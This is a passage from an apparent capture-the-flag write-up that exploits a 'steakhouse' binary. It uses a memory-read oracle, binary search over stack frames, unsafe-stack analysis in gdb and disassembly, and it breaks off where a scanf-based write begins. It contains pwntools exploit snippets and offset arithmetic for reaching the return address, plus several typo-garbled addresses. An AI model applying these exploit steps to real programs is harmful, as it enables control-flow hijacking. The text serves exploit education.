Even the memory layout of these 50,000 steak allocations is predictable, due to the deterministic behavior of the allocator.

Having hit one of the `0xdeadbeefs`, we can now exploit the structure of the steak frame. Since the steak frame has a known layout, we can navigate it precisely.

First, we locate the top of the current steak frame.

### 0x5.1 Memory Scanning - Locating the first `0xdeadbeef` ever

For this run, assume that we found a `0xdeadbeef` match at the address:
```python
some_deadbeef_address_str = '0x00007ffe25300000'
```
We now iterate backward through memory in `0x10` steps, until we reach the first appearance of the `0xdeadbeef` word within the current steak frame.

Visually, this process looks like:

<p align="center">
  
</p>

At the Python level, this is simply a loop that iterates backward through address space in `0x10` steps:

```python
some_deadbeef_address_int = int(some_deadbeef_address_str,16)
top_deadbeef_in_frame_addr = 0
deadbeef_alignment = 0x10

while (b"Oh wow" not in line): # iterate until the topmost 0xdeadbeef in the frame is reached
    some_deadbeef_address_int -= deadbeef_alignment
    p.sendlineafter(b'steakhouse\x1b[0m', CHOICE_READ_NEWSPAPER)                         
    payload = hex(some_deadbeef_address_int)                              
    p.sendlineafter(b'read?\x1b[0m', payload.encode())
    line = p.recvline()
    line = p.recvline()
    
top_deadbeef_in_frame_addr = some_deadbeef_address_int + deadbeef_alignment      
```

Being at `0x00007ffe252fffb0`, we have several options. 

### 0x5.2 Use the Recursion Pattern

The value at 
```
0x00007ffe252fffb0 + 0x8c = 0x00007ffe2530003c
``` 
is the amount of remaining steaks to allocate. In this example, we read:
```
0x810d = 33037.
```
Knowing that a steak frame requires 0xa0 bytes, we can simply deduce:
```
0xa0 * 0x810d = 0x50a820
``` 
and then add `0xa0` to reach the first `0xdeadbeef` (remember, the last recursive frame is allocated without the `0xdeadbeef` marker). Hence:

```
0x00007ffe252fffb0 - 0x50a820 + 0xa0 = 0x7ffe24df5830,
```

and this is the address of the first `0xdeadbeef` ever:


<p align="center">
  
</p>

This method is fast and valid, but not fully reliable. We could encounter a frame where part of the structure is corrupted - for example, in the first allocated steak frames. Even though hitting such a value is quite rare, we consider an alternative approach to make the scan more robust.


### 0x5.3 Binary Search on the Address Space

We perform a **parallel binary search** to locate the steak frame with the lowest memory address.

It is called *parallel* because the binary search algorithm is applied simultaneously to both the steak frame index space and to the corresponding memory address space.

We begin by assuming that the current steak frame is the last one - that is, at index `STEAKS_AMOUNT` (50,000 in our example).

Since each frame occupies `STEAK_SIZE = 0xa0` bytes, the frame with index 1 would be located at:

```
top_deadbeef_in_frame_addr - STEAKS_TOTAL_SIZE
```

Let:

```
a := top_deadbeef_in_frame_addr - STEAKS_TOTAL_SIZE
b := top_deadbeef_in_frame_addr
```

Binary search proceeds by halving the search space. The midpoint is calculated as:

```
mid := (b - a) // 2
```

We split both the index space and the address space into two regions:

**Index space:**

```
[a_index, a_index + mid]           and   [a_index + mid + 1, b_index]
```

**Address space:**

```
[a_address, a_address + mid_addr]  and   [a_address + mid_addr + STEAK_SIZE, b_address]
```

For simplicity, we refer to these as:

```
[al_index, ar_index]     and     [bl_index, br_index]
[al_address, ar_address] and     [bl_address, br_address]
```

We then perform a binary search to find the steak frame located at the lowest memory address.

Let’s illustrate this with two example rounds:

<p align="center">
  
</p>

We first find any `0xdeadbeef` value, then move to the top of the corresponding steak frame and land at address `0x7ffe252fffb0`.

For the purpose of the algorithm, we assume that this is steak frame number 50,000 - so the steak frame with index 1 is located at:
```
0x7ffe252fffb0 - STEAK_TOTAL_SIZE = 0x7ffe252fffb0 - 0x7a1200 = 0x7ffe24b5edb0.
```
We then split both the index range and the address range in the middle:
```
mid = (50000 - 1) // 2 = 24999
mid_addr = 24999 * STEAK_SIZE = 24999 * 0xa0 = 0x3d0860
```
Now we define the ranges:
```
al = 1
ar = 1 + 24999 = 25000
bl = ar + 1 = 25001
br = 50000
```
And the corresponding addresses:
```
ar_addr = al_addr + mid_addr = 0x7ffe24b5edb0 + 0x3d0860 = 7ffe20x4f2f610
bl_addr = ar_addr + STEAK_SIZE = 0x7ffe24f2f6b0
```
We summarize this information in the table below:

---
| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | [al_addr         |   | ar_addr]           |           | [bl_addr           |     | br_addr]           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
| |             |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️      |                   |     |                   |
|1 |             |   |             |`mid` = 24999 |      |     |               |       |             |                 |   |                   | `mid_addr` = 0x3d0860 |       |     |                   |
|1 | [1          |   | **25000**]  |       | [25001      |     | 50000]        |       |             |[0x7ffe24b5edb0       |   | **0x7ffe24f2f610**]    |           | [0x7ffe24f2f6b0        |     | 0x7ffe252fffb0]        | 

---

In the next step, we choose the "Read Newspaper" option and send `ar_addr` to the server:
```python
p.sendlineafter(b'house', CHOICE_READ_NEWSPAPER) 
payload = hex(ar_addr)
p.sendlineafter(b'read?', payload.encode())
``` 
If `ar_addr` contains `0xdeadbeef`, then we know there is at least one steak frame in block `a`, so we should continue the search for the first steak within this block. Otherwise, we know that we jumped too far - so the first steak must be somewhere in block `b`, and we continue the search there.

At the exploit level, we check this using the oracle described earlier. If the server responds with:
```
Here is your steak, sir!
```
then the address contains `0xdeadbeef`. Otherwise, the oracle responds with:
```
Oh wow! <random phrase from newspaper.txt>
```
In this particular case, we found the `0xdeadbeef` marker at `ar_addr`. We denote this in the table below with a steak emoji (🥩), and adapt the search area accordingly for the next round.

---
| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | [al_addr         |   | ar_addr]           |           | [bl_addr           |     | br_addr]           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
| |             |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️      |                   |     |                   |
|1 |             |   |             |`mid` = 24999 |      |     |               |       |             |                 |   |                   | `mid_addr` = 0x3d0860 |       |     |                   |
|1 | [1          |   | **25000**]  |       | [25001      |     | 50000]        |       |             |[0x7ffe24b5edb0       |   | **0x7ffe24f2f610**]    |           | [0x7ffe24f2f6b0        |     | 0x7ffe252fffb0]        | 
|1 |             |   |      🥩  🡳   |  🡶    |             |     |               |       |             |                 |   |        🥩       🡳    |  🡶       |                   |     |                   |
|1 | [1          |   | **25000**]  |       | [**25000**  | 🡲   |**25000**]     |       |             |[0x7ffe24b5edb0       |   | **7ffe20x4f2f610**]    |          | [**7ffe20x4f2f610**    |  🡲   |**0x7ffe24f2f610**]     |
---

We repeat the algorithm with the updated ranges. This time, the oracle reports that there is no `0xdeadbeef` at `ar_addr`, so we continue our search in block `b`.

---
| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | [al_addr         |   | ar_addr]           |           | [bl_addr           |     | br_addr]           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
| |             |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️      |                   |     |                   |
|2|             |   |             |`mid` = 12499 |      |     |               |       |             |                 |   |                   | `mid_addr` = 0x1e83e0 |       |     |                   |
|2 | [1          |   | 12500]      |       | [**12501**  |     | 25000]        |       |             | [0x7ffe24b5edb0      |   | 0x7ffe24d47190]        |           | [**0x7ffe24d47230**    |     | 0x7ffe24f2f610]        | 
|2 |             |   |            |  🡷    |      🡳 🥩     |     |               |       |             |                 |   |                    |    🡷     |   🡳  🥩              |    |                   |
|2 | [**12501**  | 🡰 | **12501**]  |       | [**12501**  |     | 25000]        |       |             | [**0x7ffe24d47230**  | 🡰 | **0x7ffe24d47230**]    |          | [**0x7ffe24d47230**    |     | 0x7ffe24f2f610]        | 
---


We continue until all of the following addresses:
```
al_address, ar_address, bl_address, br_address
```

point to the same memory address - meaning we have located the lowest steak frame containing `0xdeadbeef`.

This happens after:

```math
 \lceil \log_2(\texttt{STEAK\_AMOUNT}) \rceil =  \lceil \log_2(50000) \rceil = 16
```

steps, because we halve the search space in each round. The number of steps is equal to the next power of two that can cover `STEAKS_AMOUNT` steak frames.

You can browse each round in the details below:

---


<details><summary>Show round 1</summary>

We skip the `0x7ffe2` prefix in all addresses, since this part of the address never changes in this run. This makes it easier to focus on what actually changes during the search.

| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | al_addr         |   | ar_addr           |           | bl_addr           |     | br_addr           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
| | [1          |   | 0]          |       | [0          |     | 50000]        |       |             | [0x4b5edb0      |   | 0]                |           | [0                |     | 0x52fffb0]        | 
| |             |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️      |                   |     |                   |
|1 |             |   |             |`mid` = 24999 |      |     |               |       |             |                 |   |                   | `mid_addr` = 0x3d0860 |       |     |                   |
|1 | [1          |   | **25000**]  |       | [25001      |     | 50000]        |       |             |[0x4b5edb0       |   | **0x4f2f610**]    |           | [0x4f2f6b0        |     | 0x52fffb0]        | 
|1 |             |   |      🥩  🡳   |  🡶    |             |     |               |       |             |                 |   |        🥩       🡳    |  🡶       |                   |     |                   |
|1 | [1          |   | **25000**]  |       | [**25000**  | 🡲   |**25000**]     |       |             |[0x4b5edb0       |   | **0x4f2f610**]    |          | [**0x4f2f610**    |  🡲   |**0x4f2f610**]     |
</details>

<details><summary>Show round 2</summary>

| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | al_addr         |   | ar_addr           |           | bl_addr           |     | br_addr           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
| |             |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️      |                   |     |                   |
|2|             |   |             |`mid` = 12499 |      |     |               |       |             |                 |   |                   | `mid_addr` = 0x1e83e0 |       |     |                   |
|2 | [1          |   | 12500]      |       | [**12501**  |     | 25000]        |       |             | [0x4b5edb0      |   | 0x4d47190]        |           | [**0x4d47230**    |     | 0x4f2f610]        | 
|2 |             |   |            |  🡷    |      🡳 🥩     |     |               |       |             |                 |   |                    |    🡷     |   🡳  🥩              |    |                   |
|2 | [**12501**  | 🡰 | **12501**]  |       | [**12501**  |     | 25000]        |       |             | [**0x4d47230**  | 🡰 | **0x4d47230**]    |          | [**0x4d47230**    |     | 0x4f2f610]        | 

</details>

<details><summary>Show round 3</summary>

| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | al_addr         |   | ar_addr           |           | bl_addr           |     | br_addr           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
|   |             |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️      |                   |     |                   |
|3 |             |   |             |`mid` = 6249 |      |     |               |       |             |                 |   |                   | `mid_addr` = 0xf41a0 |       |     |                   |
|3 | [12501      |   | **18750**]  |       | [18751      |     | 25000]        |       |             |[0x4d47230       |   | **0x4e3b3d0**]    |           | [0x4e3b470        |     | 0x4f2f610]        | 
|3 |             |   |       🥩  🡳   |  🡶    |             |     |               |       |             |                 |   |          🥩    🡳    |  🡶       |                   |     |                   |
|3 | [12501      |   | **18750**]  |       | [**18750**  | 🡲   |**18750**]     |       |             |[0x4b5edb0       |   | **0x4f2f610**]    |          | [**0x4e3b3d0**    |  🡲   |**0x4e3b3d0**]    |

</details>


<details><summary>Show round 4</summary>

| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | al_addr         |   | ar_addr           |           | bl_addr           |     | br_addr           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
| |              |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️     |                   |     |                   |
|4|              |   |             |`mid` = 3124 |       |     |               |       |             |                 |   |                   | `mid_addr` = 0x7a080 |       |     |                   |
|4 | [12501          |   | 15625]  |       | [**15626**  |     | 18750]        |       |             | [0x4d47230      |   | 0x4dc12b0]        |          | [**0x4dc1350**    |     | 0x4e3b3d0]        | 
|4 |             |   |             |  🡷    |      🡳  🥩    |     |               |       |             |                 |   |                   |    🡷     |   🡳  🥩             |    |                   |
|4 | [**15626**  | 🡰 | **15626**]  |       | [**15626**  |     | 18750]        |       |             | [**0x4dc1350**  | 🡰 | **0x4dc1350**]    |          | [**0x4dc1350**    |     | 0x4e3b3d0]       | 

</details>

<details><summary>Show round 5</summary>

| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | al_addr         |   | ar_addr           |           | bl_addr           |     | br_addr           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
|   |             |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️      |                   |     |                   |
|5 |             |   |             |`mid` = 1562 |      |     |               |       |             |                 |   |                   | `mid_addr` = 0x3d040 |       |     |                   |
|5 | [15626      |   | **17188**]  |       | [17189      |     | 18750]        |       |             |[0x4dc1350       |   | **0x4dfe390**]    |           | [0x4dfe430        |     | 0x4e3b3d0]        | 
|5 |             |   |        🥩  🡳   |  🡶    |             |     |               |       |             |                 |   |          🥩    🡳    |  🡶       |                   |     |                   |
|5 | [15626      |   | **17188**]  |       | [**17188**  | 🡲   |**17188**]     |       |             |[0x4dc1350       |   | **0x4dfe390**]    |          | [**0x4dfe390**    |  🡲   |**0x4dfe390**]    |

</details>


<details><summary>Show round 6</summary>

| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | al_addr         |   | ar_addr           |           | bl_addr           |     | br_addr           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
| |              |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️     |                   |     |                   |
|6|              |   |             |`mid` = 781 |       |     |               |       |             |                 |   |                   | `mid_addr` = 0x1e820 |       |     |                   |
|6 | [15626          |   | 16407]  |       | [**16408**  |     | 17188]        |       |             | [0x4dc1350      |   | 0x4ddfb70]        |          | [**0x4ddfc10**    |     | 0x4dfe390]        | 
|6 |             |   |             |  🡷    |      🡳  🥩    |     |               |       |             |                 |   |                   |    🡷     |   🡳  🥩             |    |                   |
|6 | [**16408**  | 🡰 | **16408**]  |       | [**16408**  |     | 17188]        |       |             | [**0x4ddfc10**  | 🡰 | **0x4ddfc10**]    |          | [**0x4ddfc10**    |     | 0x4dfe390]       | 
</details>

<details><summary>Show round 7</summary>

| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | al_addr         |   | ar_addr           |           | bl_addr           |     | br_addr           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
| |              |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️     |                   |     |                   |
|7|              |   |             |`mid` = 390 |       |     |               |       |             |                 |   |                   | `mid_addr` = 0xf3c0 |       |     |                   |
|7 | [16408          |   | 16798]  |       | [**16799**  |     | 17188]        |       |             | [0x4ddfc10      |   | 0x4deefd0]        |          | [**0x4def070**    |     | 0x4dfe390]        | 
|7 |             |   |             |  🡷    |      🡳  🥩    |     |               |       |             |                 |   |                   |    🡷     |   🡳  🥩             |    |                   |
|7 | [**16799**  | 🡰 | **16799**]  |       | [**16799**  |     | 17188]        |       |             | [**0x4def070**  | 🡰 | **0x4def070**]    |          | [**0x4def070**    |     | 0x4dfe390]       | 

</details>


<details><summary>Show round 8</summary>

| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | al_addr         |   | ar_addr           |           | bl_addr           |     | br_addr           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
|   |             |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️      |                   |     |                   |
|8 |             |   |             |`mid` = 194 |      |     |               |       |             |                 |   |                   | `mid_addr` = 0x7940 |       |     |                   |
|8 | [16799      |   | **16993**]  |       | [16994      |     | 17188]        |       |             |[0x4def070       |   | **0x4df69b0**]    |           | [0x4df6a50        |     | 0x4dfe390]        | 
|8 |             |   |        🥩  🡳   |  🡶    |             |     |               |       |             |                 |   |          🥩    🡳    |  🡶       |                   |     |                   |
|8 | [16799      |   | **16993**]  |       | [**16993**  | 🡲   |**16993**]     |       |             |[0x4def070       |   | **0x4df69b0**]    |          | [**0x4df69b0**    |  🡲   |**0x4df69b0**]    |

</details>


<details><summary>Show round 9</summary>

| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | al_addr         |   | ar_addr           |           | bl_addr           |     | br_addr           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
| |              |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️     |                   |     |                   |
|9|              |   |             |`mid` = 97 |       |     |               |       |             |                 |   |                   | `mid_addr` = 0x3ca0 |       |     |                   |
|9 | [16799          |   | 16896]  |       | [**16897**  |     | 16993]        |       |             | [0x4def070      |   | 0x4df2d10]        |          | [**0x4df2db0**    |     | 0x4df69b0]        | 
|9 |             |   |             |  🡷    |      🡳  🥩    |     |               |       |             |                 |   |                   |    🡷     |   🡳  🥩             |    |                   |
|9 | [**16897**  | 🡰 | **16897**]  |       | [**16897**  |     | 16993]        |       |             | [**0x4df2db0**  | 🡰 | **0x4df2db0**]    |          | [**0x4df2db0**    |     | 0x4df69b0]       | 

</details>


<details><summary>Show round 10</summary>

| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | al_addr         |   | ar_addr           |           | bl_addr           |     | br_addr           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
| |              |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️     |                   |     |                   |
|10|              |   |             |`mid` = 48 |       |     |               |       |             |                 |   |                   | `mid_addr` = 0x1e00 |       |     |                   |
|10 | [16897          |   | 16945]  |       | [**16946**  |     | 16993]        |       |             | [0x4df2db0      |   | 0x4df4bb0]        |          | [**0x4df4c50**    |     | 0x4df69b0]        | 
|10 |             |   |             |  🡷    |      🡳  🥩    |     |               |       |             |                 |   |                   |    🡷     |   🡳  🥩             |    |                   |
|10 | [**16946**  | 🡰 | **16946**]  |       | [**16946**  |     | 16993]        |       |             | [**0x4df4c50**  | 🡰 | **0x4df4c50**]    |          | [**0x4df4c50**    |     | 0x4df69b0]       | 

</details>


<details><summary>Show round 11</summary>

| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | al_addr         |   | ar_addr           |           | bl_addr           |     | br_addr           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
|   |             |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️      |                   |     |                   |
|11 |             |   |             |`mid` = 23 |      |     |               |       |             |                 |   |                   | `mid_addr` = 0xe60 |       |     |                   |
|11 | [16946      |   | **16969**]  |       | [16970      |     | 16993]        |       |             |[0x4df4c50       |   | **0x4df5ab0**]    |           | [0x4df5b50        |     | 0x4df69b0]        | 
|11 |             |   |        🥩  🡳   |  🡶    |             |     |               |       |             |                 |   |          🥩    🡳    |  🡶       |                   |     |                   |
|11 | [16946      |   | **16969**]  |       | [**16969**  | 🡲   |**16969**]     |       |             |[0x4df4c50       |   | **0x4df5ab0**]    |          | [**0x4df5ab0**    |  🡲   |**0x4df5ab0**]    |

</details>


<details><summary>Show round 12</summary>

| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | al_addr         |   | ar_addr           |           | bl_addr           |     | br_addr           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
| |              |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️     |                   |     |                   |
|12|              |   |             |`mid` = 11 |       |     |               |       |             |                 |   |                   | `mid_addr` = 0x6e0 |       |     |                   |
|12 | [16946          |   | 16957]  |       | [**16958**  |     | 16969]        |       |             | [0x4df4c50      |   | 0x4df5330]        |          | [**0x4df53d0**    |     | 0x4df5ab0]        | 
|12 |             |   |             |  🡷    |      🡳  🥩    |     |               |       |             |                 |   |                   |    🡷     |   🡳  🥩             |    |                   |
|12 | [**16958**  | 🡰 | **16958**]  |       | [**16958**  |     | 16969]        |       |             | [**0x4df53d0**  | 🡰 | **0x4df53d0**]    |          | [**0x4df53d0**    |     | 0x4df5ab0]       | 

</details>


<details><summary>Show round 13</summary>

| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | al_addr         |   | ar_addr           |           | bl_addr           |     | br_addr           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
| |              |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️     |                   |     |                   |
|13|              |   |             |`mid` = 5 |       |     |               |       |             |                 |   |                   | `mid_addr` = 0x320 |       |     |                   |
|13 | [16958          |   | 16963]  |       | [**16964**  |     | 16969]        |       |             | [0x4df53d0      |   | 0x4df56f0]        |          | [**0x4df5790**    |     | 0x4df5ab0]        | 
|13 |             |   |             |  🡷    |      🡳  🥩    |     |               |       |             |                 |   |                   |    🡷     |   🡳  🥩             |    |                   |
|13 | [**16964**  | 🡰 | **16964**]  |       | [**16964**  |     | 16969]        |       |             | [**0x4df5790**  | 🡰 | **0x4df5790**]    |          | [**0x4df5790**    |     | 0x4df5ab0]       | 

</details>


<details><summary>Show round 14</summary>

| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | al_addr         |   | ar_addr           |           | bl_addr           |     | br_addr           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
|   |             |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️      |                   |     |                   |
|14 |             |   |             |`mid` = 2 |      |     |               |       |             |                 |   |                   | `mid_addr` = 0x140 |       |     |                   |
|14 | [16964      |   | **16966**]  |       | [16967      |     | 16969]        |       |             |[0x4df5790       |   | **0x4df58d0**]    |           | [0x4df5970        |     | 0x4df5ab0]        | 
|14 |             |   |        🥩  🡳   |  🡶    |             |     |               |       |             |                 |   |          🥩    🡳    |  🡶       |                   |     |                   |
|14 | [16964      |   | **16966**]  |       | [**16966**  | 🡲   |**16966**]     |       |             |[0x4df5790       |   | **0x4df58d0**]    |          | [**0x4df58d0**    |  🡲   |**0x4df58d0**]    |

</details>


<details><summary>Show round 15</summary>

| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | al_addr         |   | ar_addr           |           | bl_addr           |     | br_addr           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
|   |             |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️      |                   |     |                   |
|15 |             |   |             |`mid` = 1 |      |     |               |       |             |                 |   |                   | `mid_addr` = 0xa0 |       |     |                   |
|15 | [16964      |   | **16965**]  |       | [16966      |     | 16966]        |       |             |[0x4df5790       |   | **0x4df5830**]    |           | [0x4df58d0        |     | 0x4df58d0]        | 
|15 |             |   |        🥩  🡳   |  🡶    |             |     |               |       |             |                 |   |          🥩    🡳    |  🡶       |                   |     |                   |
|15 | [16964      |   | **16965**]  |       | [**16965**  | 🡲   |**16965**]     |       |             |[0x4df5790       |   | **0x4df5830**]    |          | [**0x4df5830**    |  🡲   |**0x4df5830**]    |

</details>


<details><summary>Show round 16</summary>

| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | al_addr         |   | ar_addr           |           | bl_addr           |     | br_addr           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
| |              |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️     |                   |     |                   |
|16|              |   |             |`mid` = 0 |       |     |               |       |             |                 |   |                   | `mid_addr` = 0x0 |       |     |                   |
|16 | [16964          |   | 16965]  |       | [**16965**  |     | 16965]        |       |             | [0x4df5790      |   | 0x4df5790]        |          | [**0x4df5830**    |     | 0x4df5830]        | 
|16 |             |   |             |  🡷    |      🡳  🥩    |     |               |       |             |                 |   |                   |    🡷     |   🡳  🥩             |    |                   |
|16 | [**16965**  | 🡰 | **16965**]  |       | [**16965**  |     | 16965]        |       |             | [**0x4df5830**  | 🡰 | **0x4df5830**]    |          | [**0x4df5830**    |     | 0x4df5830]       | 

Adding back the prefix `0x7ffe2` that we skipped for simplicity, we get:
```
0x7ffe2 ++ 4df5830 = 0x0x7ffe24df5830
```
which matches the same address we found previously.

</details>

---

We initially assumed that the block at:
```
0x7ffe252fffb0
``` 
was block number 50,000 for the purpose of the algorithm. However, if the block at:
```
0x7ffe24df5830
``` 
is in fact block number 1, then after completing the binary search we can reconstruct the actual block number corresponding to `0x7ffe252fffb0` using:
```
(FOUND_BLOCK_ADDR - FIRST_BLOCK_ADDR) / STEAK_SIZE  + 1 = (0x7ffe252fffb0 - 0x7ffe24df5830) / 0xa0 + 1 = 33037. 
```

---


### 0x5.4 Jump to the Return Address

At this point, we have reached the first appearance of `0xdeadbeef` in memory:

<p align="center">
  
</p>

We know that the steaks area occupies 0x7a1200 bytes, so by inspecting the space:
```
0x7ffe24df5830 + 0x7a1200
```
in the debugger, we can now actually view the binary control data. We can locate the return address by following the base pointer, and compute the total offset between the first `0xdeadbeef` value and the return address.

This offset remains constant, because the stack layout stays the same across different runs with the same input data.

When inspecting the area just before the control information, we observe that the first steak frames have already been partially overwritten by the program. This happens because the `0xdeadbeef` values are no longer used later in the execution - so the system considers this memory space as no longer needed and reuses it.


<p align="center">
  
</p>

Here, we can see that the upper block has an index of `0xc34c = 49996`, meaning that steak frames 49997 through 50000 have already been overwritten.

This is precisely why we search for the first appearance of `0xdeadbeef` in memory - not the last one. The lower part of the stack (earlier allocations) is more reliable for the exploit.

---


## 0x6. Locating the Unsafe Stack

Now it is time to locate the unsafe stack. Looking at the disassembly of the `__get_unsafe_stack_top()` function, we find some interesting information:


```bash
0000000000402a30 <__get_unsafe_stack_top>:
  402a30:	50                   	push   %rax
  402a31:	66 66 66 64 48 8b 04 	data16 data16 data16 mov %fs:0x0,%rax
  402a38:	25 00 00 00 00 
  402a3d:	48 8b 88 e8 ff ff ff 	mov    -0x18(%rax),%rcx
  402a44:	48 03 88 f0 ff ff ff 	add    -0x10(%rax),%rcx
  402a4b:	48 89 c8             	mov    %rcx,%rax
  402a4e:	59                   	pop    %rcx
  402a4f:	c3                   	ret    
```

On Linux x86-64 systems, the `%fs` segment register is used to locate the [thread local buffer (TLB)](https://www.uclibc.org/docs/images/tls.pdf), which resides at the top of the thread-local storage (TLS) region.

Therefore, the instruction: 
```
mov %fs:0x0,%rax
``` 
loads the address of the TCB into rax. The address of the top of the unsafe stack is then computed and accumulated in `rcx` using:
```
mov   %fs:0x0,%rax
add   -0x10(%rax),%rcx
```

Now, let us check the `__get_unsafe_stack_bottom()` function:
```bash
0000000000402a10 <__get_unsafe_stack_bottom>:
  402a10:	50                   	push   %rax
  402a11:	66 66 66 64 48 8b 04 	data16 data16 data16 mov %fs:0x0,%rax
  402a18:	25 00 00 00 00 
  402a1d:	48 8b 80 e8 ff ff ff 	mov    -0x18(%rax),%rax
  402a24:	59                   	pop    %rcx
  402a25:	c3                   	ret    
  402a26:	66 2e 0f 1f 84 00 00 	cs nopw 0x0(%rax,%rax,1)
  402a2d:	00 00 00 
```
Here, we observe that the instruction:
```
mov    -0x18(%rax),%rax
``` 
loads the bottom of the unsafe stack.

From both functions, we can deduce that the value at:
```
-0x10(%rax),%rcx
``` 
holds the size of the unsafe stack. Thus, the top of the unsafe stack is computed as:
```
unsafe_stack_bottom + unsafe_stack_size
```

where the base (bottom) is at `-0x18(%rax)` and the size is at `-0x10(%rax)`.

Knowing this, and applying what we learned from the disassembly, we can extract the concrete addresses of the unsafe stack in `gdb`:
```c
// top
gef➤  p *(void **)(($fs_base) - 0x18) + *(size_t *)(($fs_base) - 0x10)
$1 = (void *) 0x74f4752f8000

// bottom
gef➤  p *(void **)(($fs_base) - 0x18)
$2 = (void *) 0x74f474af8000

// size
gef➤  p *(size_t *)(($fs_base) - 0x10)
$3 = 0x800000
```

This tells us that the unsafe stack spans: 
```
0x800000 / 1024 / 1024 = 8 MiB
``` 
and is located in the range:
```
[0x74f474af8000 - 0x74f4752f8000]
```

In other words, this stack grows from a lower address (bottom) to a higher address (top). Let us check the virtual memory map:


<p align="center">
  
</p>

We see a read/write segment allocated between `libc` and the heap - this is the unsafe stack. Its size almost perfectly matches our calculation. However, the segment appears to be enlarged by `0x2000`. This can happen for several reasons related to memory allocation (alignment padding, guard pages, or similar mechanisms).


Now, let us explore the contents of the unsafe stack.

## 0x7. Exploiting the Vulnerability

We started a different exploit session here, so the return address for this section is:
```
0x7ffd6c174c28
```
We continue our exploit from this point.

### 0x7.1 Abuse of `scanf()` for Memory Write

Attaching with `gdb` to the program, we set breakpoints on the `input()`, `read()`, and `check()` functions.

We first observe the call to `input()` in the call stack:

<p align="center">
